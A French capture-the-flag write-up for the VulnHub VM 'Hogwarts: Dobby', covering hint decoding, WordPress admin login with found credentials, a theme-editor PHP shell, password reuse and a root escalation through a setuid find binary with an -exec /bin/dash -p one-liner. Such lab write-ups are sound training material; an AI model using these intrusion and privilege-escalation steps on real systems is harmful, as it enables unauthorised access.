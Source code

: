 ```yaml
---
title: "Solution du CTF Hogwarts: Dobby de VulnHub"
tags: [VulnHub, CTF]
---
```


[Hogwarts: Dobby](https://vulnhub.com/entry/hogwarts-dobby,597/) a été créé par le même auteur que le CTF [Bellatrix]({% link _posts/2022-11-19-Solution-du-CTF-Hogwarts-Bellatrix-de-VulnHub.md %}).

On y retrouve cette idée de jeu de piste qui ne m'enchante pas, mais comme le précédent ça reste acceptable.

## Harry Potter et l'encodage secret

Seul un port 80 est ouvert sur la VM et livre la page par défaut d'Apache... Sauf que, je remarque que le navigateur affiche un titre inhabituel pour la page. Il y a en effet deux indices dans le code HTML :

```html
    <title>Draco:dG9vIGVhc3kgbm8/IFBvdHRlcg==</title>
    --- snip ---
    <!--
     See: /alohomora
  -->
```

Le base64 se décode en `too easy no? Potter` et à l'adresse mentionnée en commentaire, on trouve ce message :

> Draco's password is his house ;)

Via énumération je trouve aussi le fichier `http://192.168.56.149/log` avec le contenu suivant :

> pass:OjppbGlrZXNvY2tz
> hint --> /DiagonAlley

Le base64 se décode en `::ilikesocks` et le path mène cette fois à une installation de *Wordpress*.

Sur l'interface administrateur du CMS on parvient à se connecter avec les identifiants `Draco` / `slytherin`.

Depuis l'interface, on retrouve l'éditeur de thème permettant de modifier le code PHP malgré le fait que l'interface soit configurée en espagnol.

L'opération est classique donc je n'entrerais pas dans les détails. Je parviens après upload de `reverse-ssh` à avoir un shell interactif.

## Harry Potter et les pages de manuel

L'exécutable `cat` a été déplacé, je le retrouve dans `/usr/lib/klibc/bin/`. En corrigeant la variable d'environnement PATH tout revient dans l'ordre.

La configuration Wordpress ne m'apprend rien d'intéressant :

```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'WordPressDB' );

/** MySQL database username */
define( 'DB_USER', 'Draco' );

/** MySQL database password */
define( 'DB_PASSWORD', 'slytherin' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

Il y a un utilisateur `dobby` sur le système et le mot de passe `ilikesocks` fonctionne.

Dans son répertoire personnel se trouve un flag :

```console
dobby@HogWarts:~$ cat flag1.txt 
"Harry potter this year should not go to the school of wizardry"

flag1{28327a4964cb391d74111a185a5047ad}
```

Il y a deux binaires setuid inhabituels :

```console
dobby@HogWarts:~$ find / -type f -perm -u+s 2> /dev/null
--- snip ---
/usr/bin/base32
/usr/bin/gpasswd
/usr/bin/find
/usr/bin/pkexec
--- snip ---
```

`base32` peut servir à lire les fichiers des autres utilisateurs, mais pas à en écrire.

On se tournera alors vers la commande `find` avec son option `-exec` bien connue :

```console
dobby@HogWarts:~$ find /etc/ -name issue -exec /bin/dash -p \;
# id
uid=1000(dobby) gid=1000(dobby) euid=0(root) grupos=1000(dobby),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),132(lxd),133(sambashare)
# cd /root
# ls
proof.txt
# cat proof.txt 
                                         _ __
        ___                             | '  \
   ___  \ /  ___         ,'\_           | .-. \        /|
   \ /  | |,'__ \  ,'\_  |   \          | | | |      ,' |_   /|
 _ | |  | |\/  \ \ |   \ | |\_|    _    | |_| |   _ '-. .-',' |_   _
// | |  | |____| | | |\_|| |__    //    |     | ,'_`. | | '-. .-',' `. ,'\_
\\_| |_,' .-, _  | | |   | |\ \  //    .| |\_/ | / \ || |   | | / |\  \|   \
 `-. .-'| |/ / | | | |   | | \ \//     |  |    | | | || |   | | | |_\ || |\_|
   | |  | || \_| | | |   /_\  \ /      | |`    | | | || |   | | | .---'| |
   | |  | |\___,_\ /_\ _      //       | |     | \_/ || |   | | | |  /\| |
   /_\  | |           //_____//       .||`      `._,' | |   | | \ `-' /| |
        /_\           `------'        \ |   AND        `.\  | |  `._,' /_\
                                       \|       THE          `.\
                                            _  _  _  _  __ _  __ _ /_
                                           (_`/ \|_)/ '|_ |_)|_ |_)(_
                                           ._)\_/| \\_,|__| \|__| \ _)
                                                           _ ___ _      _
                                                          (_` | / \|\ ||__
                                                          ._) | \_/| \||___


root{63a9f0ea7bb98050796b649e85481845!!}
```
